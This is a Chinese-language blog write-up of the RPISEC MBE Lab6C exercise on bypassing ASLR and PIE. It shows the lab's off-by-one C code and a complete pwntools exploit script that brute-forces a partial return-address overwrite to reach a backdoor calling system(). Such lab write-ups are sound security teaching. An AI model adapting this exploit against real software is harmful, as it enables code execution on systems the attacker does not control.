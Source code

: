 ```yaml
---
layout: post
title: "MBE Lab6 ASLR and PIE Write Up"
---
```


# 0x00 背景

此篇write up对应于MBE的[Lab6](https://github.com/RPISEC/MBE/tree/master/src/lab06)，针对的是ASLR和PIE的bypass，相关环境为64位的ubuntu 14.04配合使用pwntools，在gcc编译过程添加-m32选项编译为32位程序。



# 0x01 Lab6

## Lab6C

此题目默认开启ASLR和PIE，但是很容易看出有Off By One漏洞可导致溢出（无栈保护）：

```c
struct savestate {
    char tweet[140];
    char username[40];
    int msglen;
} save;
…
    fgets(readbuf, 128, stdin);
    for(i = 0; i <= 40 && readbuf[i]; i++)
        save->username[i] = readbuf[i];
…
```

一个字节正好控制msglen，在set_tweet函数中则根据msglen进行strncpy导致栈溢出。但是开启PIE，只知道12bit的相对位置：

![][1]

还好此题比较简单提供了一个secret_backdoor，其中会接收cmd传递给system函数。结合栈溢出的Partial address overwrite和4bit的Bruteforce即可，代码如下：

```python
from pwn import *

for i in xrange(10):
    p = process('./lab6C')
    #context.log_level = 'debug'
    p.recvline_contains('username')
    #p.recvuntil('>')
    username = 'A'*40 + '\xc6'
    p.sendline(username)
    p.recvline_contains('Unix-Dude')
    #p.recvuntil(' ')
    tweet = 'A'*196 + '\x2b\x57'
    p.sendline(tweet)
    p.recvline_contains('sent!')
    #gdb.attach(p)
    p.sendline('/bin/ls')
    try:
        print p.recvline()
        break
    except EOFError as e:
        pass
```


[1]: https://wx4.sinaimg.cn/large/ee2fecafly1fphgg3z7b8j20k503774o.jpg
[2]: https://wx1.sinaimg.cn/large/ee2fecafly1fphgg5021ej20it03mmxo.jpg
[3]: https://wx3.sinaimg.cn/large/ee2fecafly1fphgg5u6vwj20ja03k0sy.jpg
[4]: https://wx2.sinaimg.cn/large/ee2fecafly1fphgg6sr8vj20vf06njs7.jpg
[5]: https://wx3.sinaimg.cn/large/ee2fecafly1fphgg8rdztj20mt0bita8.jpg